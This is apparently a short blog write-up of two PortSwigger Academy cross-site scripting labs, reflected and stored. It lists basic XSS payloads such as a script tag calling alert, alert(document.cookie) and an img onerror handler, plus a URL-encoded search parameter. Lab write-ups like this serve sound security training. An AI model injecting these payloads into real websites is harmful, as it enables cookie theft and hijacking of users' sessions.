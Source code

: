 ```yaml
---
title: XSS - PortSwigger
date: 2022-6-1 00:00:00 +/-TTTT
categories: [PortSwigger]
tags: [PortSwigger, writeup, penetration testing, XSS]
---
```






<br />

### [Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

Goal: perform a cross-site scripting attack that calls the `alert` function.

- just try the basic `xss` payload `<script>alert(1)</script>`

  ```bash
  ?search=<script>alert%28"XSS"%29<%2Fscript>
  ```

  
  
  <br />

---

### [Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

Goal: submit a comment that calls the `alert` function when the blog post is viewed.

- go to any post and write any basic `xss` payload 
  ```
  <script>alert(document.cookie)</script>
  OR
  <img src=1 onerror=alert(1)>
  ```

- Enter a name, email and website.

- Click "Post comment".







<br /><br />





---
